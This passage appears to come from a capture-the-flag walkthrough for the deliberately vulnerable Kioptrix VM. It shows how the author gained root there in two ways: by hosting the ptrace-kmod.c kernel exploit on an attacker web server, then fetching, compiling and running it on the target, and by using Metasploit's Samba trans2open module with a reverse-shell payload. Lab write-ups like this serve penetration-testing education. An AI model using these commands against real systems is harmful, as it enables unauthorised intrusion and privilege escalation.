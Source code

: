 Not bad... But we were supposed to get root access straight away. If the same happened to you, here's how to fix it. We should always read all the info the terminal prints for us:

    d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
    --07:43:17--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
               => ptrace-kmod.c
    Connecting to dl.packetstormsecurity.net:443... 
    dl.packetstormsecurity.net: Host not found.
    gcc: ptrace-kmod.c: No such file or directory
    gcc: No input files
    rm: cannot remove ptrace-kmod.c: No such file or directory 

Ok, we are missing some **ptrace-kmod.c**. You can download the file in this same repo. Now we only need to upload it to our victim machine. Copy the file to `/var/www/html/` and start Apache:

    sudo service apache2 start

In Kioptrix, download the file with wget:

    wget http://[your IP]/ptrace-kmod.c

Now we just need to compile, give permissions and exploit!

    gcc -o exploit ptrace-kmod.c
    chmod 777 exploit
    ./exploit

And there we go! We have root acces FTW! We can check it with the command `id`:

    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)

#### Method #2

With a quick search on the Internet, we already find some interesting stuff about the Samba exploitation: [**Samba trans2open Overflow (Linux x86).**](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/) And it's on **Rapid7 Exploit Database** what means... Open Metasploit!

    sudo msfconsole
    use exploit/linux/samba/trans2open

Ok, now we set our RHOST (Kioptrix) and LHOST (our Kali machine) and try to exploit:

    set RHOSTS 192.168.1.31
    set LHOST 192.168.1.23
    exploit

But something fails... 

    [*] 192.168.1.31:139 - Trying return address 0xbffffafc...
    [*] Sending stage (1017704 bytes) to 192.168.1.31
    [*] 192.168.1.31 - Meterpreter session 1 closed.  Reason: Died
    [-] Meterpreter session 1 is not valid and will be closed

Why? Because of the payload itself. Long story short: The default payload **(linux/x86/meterpreter/reverse_tcp) is a Staged payload.** These payloads are less stable and send the payload in stages. So we have to change the payload option to a Non-Staged payload.

    set payload linux/x86/shell_reverse_tcp
